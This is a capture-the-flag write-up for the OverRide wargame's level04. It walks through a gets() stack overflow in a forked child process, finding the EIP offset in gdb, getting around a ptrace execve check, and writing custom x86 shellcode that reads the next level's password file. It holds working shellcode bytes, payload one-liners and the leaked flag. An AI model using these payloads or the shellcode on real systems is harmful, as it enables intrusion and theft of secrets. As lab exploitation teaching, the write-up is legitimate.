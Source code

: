 # Level04

This binary will call fork() to create a child process. This child process will wait for an input using gets(). We're getting used to overflow it, let's try to see if we can overflow to any valuable register (looking at you, EIP). First of all we need to follow the child process in gdb :

    (gdb) set follow-fork-mode child

Then the classic pattern generator :

    (gdb) r
    Starting program: /home/users/level04/level04 
    [New process 1822]
    Give me some shellcode, k
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

    Program received signal SIGSEGV, Segmentation fault.
    [Switching to process 1822]
    0x41326641 in ?? ()
    (gdb) i r
    eax            0x0      0
    ecx            0xf7fd08c4       -134412092
    edx            0xffffd550       -10928
    ebx            0x41386541       1094214977
    esp            0xffffd5f0       0xffffd5f0
    ebp            0x31664130       0x31664130
    esi            0x0      0
    edi            0x66413965       1715550565
    eip            0x41326641       0x41326641 <-- offset 156
    eflags         0x10282  [ SF IF RF ]
    cs             0x23     35
    ss             0x2b     43
    ds             0x2b     43
    es             0x2b     43
    fs             0x0      0
    gs             0x63     99

Now we can simply send our now well known shellcode from level01 in an environment variable, get its address, pass it to EIP aaaaaaaand :

    level04@OverRide:~$ export SHELLCODE=$(python -c 'print "\x90"*100 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"')
    [...]
    (gdb) x/500s $esp
    [...]
    0xffffd795:      "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\061\333\061\311\061\322Rhn/shh//   bi\211\343RS\211\341\260\v"
    0xffffd821:      "SHELL=/bin/bash"
    [...]
    (gdb) x/s 0xffffd803
    0xffffd803:      "1\300\061\333\061\311\061\322Rhn/shh//bi\211\343RS\211\341\260\v"

Let's take an address that will land on one of the NOP operations, after SHELLCODE=, for instance 0xffffd7b1 (some addresses work, some don't, took a bit of trial and error, hence the 100 NOP at the beginning):

    level04@OverRide:~$ (python -c 'print "A" * 156 + "\xb1\xd7\xff\xff"') | ./level04 
    Give me some shellcode, k
    no exec() for you

After diggning into the source code for a bit, we can see a call to ptrace that looks for an execve call in the parent process. If execve is detected, the parent will kill the child, and write "no exec() for you".

So we can't use execve, but nothing prevents us from using read and write to directly write the password to stdout instead of spawning a shell. Let's craft a new shellcode that does that :

        section .text
            global _start
    _start:
            ; clear registers
            xor     eax, eax
            xor     ebx, ebx
            xor     ecx, ecx
            xor     edx, edx
            jmp     two

    one:
            pop     ebx
            ; set syscall number for sys_open
            mov     al, 5
            xor     ecx, ecx
            int     0x80

            ; move return value (fd) to esi
            mov     esi, eax
            jmp     read

    exit:
            ; set syscall number for sys_exit
            mov     al, 1
            xor     ebx, ebx
            int     0x80

    read:
            mov     ebx, esi
            mov     al, 3
            sub     esp, 1          ; reserve space for read buffer
            lea     ecx, [esp]      ; load address of buffer
            mov     dl, 1           ; set write length to 1 byte
            int     0x80

            xor     ebx, ebx
            cmp     ebx, eax        ; check EOF
            je      exit

            mov     al, 4   ; set syscall number for sys_write 
            mov     bl, 1   ; set fd to stdout
            mov     dl, 1   ; set write length to 1 byte
            int     0x80

            add     esp, 1  ; deallocate buffer space
            jmp     read

    two:
            call    one
            db      "/home/users/level05/.pass"

[source (AT&T syntax, painful, i know)](https://shell-storm.org/shellcode/files/shellcode-73.html)

    $ nasm -f elf32 read_shellcode.s -o readpass
    objdump -d ./readpass

    ./readpass:     file format elf32-i386


    Disassembly of section .text:

    00000000 <_start>:
    0:   31 c0                   xor    %eax,%eax
    2:   31 db                   xor    %ebx,%ebx
    4:   31 c9                   xor    %ecx,%ecx
    6:   31 d2                   xor    %edx,%edx
    8:   eb 32                   jmp    3c <two>

    0000000a <one>:
    a:   5b                      pop    %ebx
    b:   b0 05                   mov    $0x5,%al
    d:   31 c9                   xor    %ecx,%ecx
    f:   cd 80                   int    $0x80
    11:   89 c6                   mov    %eax,%esi
    13:   eb 06                   jmp    1b <read>
    [...]

Our shellcode becomes :

    \x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass

Crafted this way so that we can simply replace the file to read in at the end easily in case we need it later on.

Now let's redo the overflow using this code :

    level04@OverRide:~$ export PAYLOAD=$(python -c 'print "\x90"*100 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"')
    level04@OverRide:~$ gdb ./level04 

    (gdb) b main
    Breakpoint 1 at 0x80486cd
    (gdb) r
    Starting program: /home/users/level04/level04 

    Breakpoint 1, 0x080486cd in main ()
    x/500s $esp
    [...]
    0xffffded3:      "LESSOPEN=| /usr/bin/lesspipe %s"
    0xffffdef3:      "PAYLOAD=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\061\333\061\311\061\322\353\062[\260\005\061\311\211\306\353\006\260\001\061\333\211\363\260\003\203\354\001\215\f$\262\0011\333\071\303t\346\260\004\263\001\262\001\203\304\001\353\337\350\311\377\377\377/home/users/level05/.pass"
    0xffffdfba:      "LESSCLOSE=/usr/bin/lesspipe %s %s"
    [...]
    level04@OverRide:~$ (python -c 'print "A" * 156 + "\xf4\xde\xff\xff"') | ./level04 
    Give me some shellcode, k
    ^C
    level04@OverRide:~$ (python -c 'print "A" * 156 + "\xf5\xde\xff\xff"') | ./level04 
    Give me some shellcode, k
    ^C
    level04@OverRide:~$ (python -c 'print "A" * 156 + "\xf6\xde\xff\xff"') | ./level04 
    Give me some shellcode, k
    3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
    child is exiting...
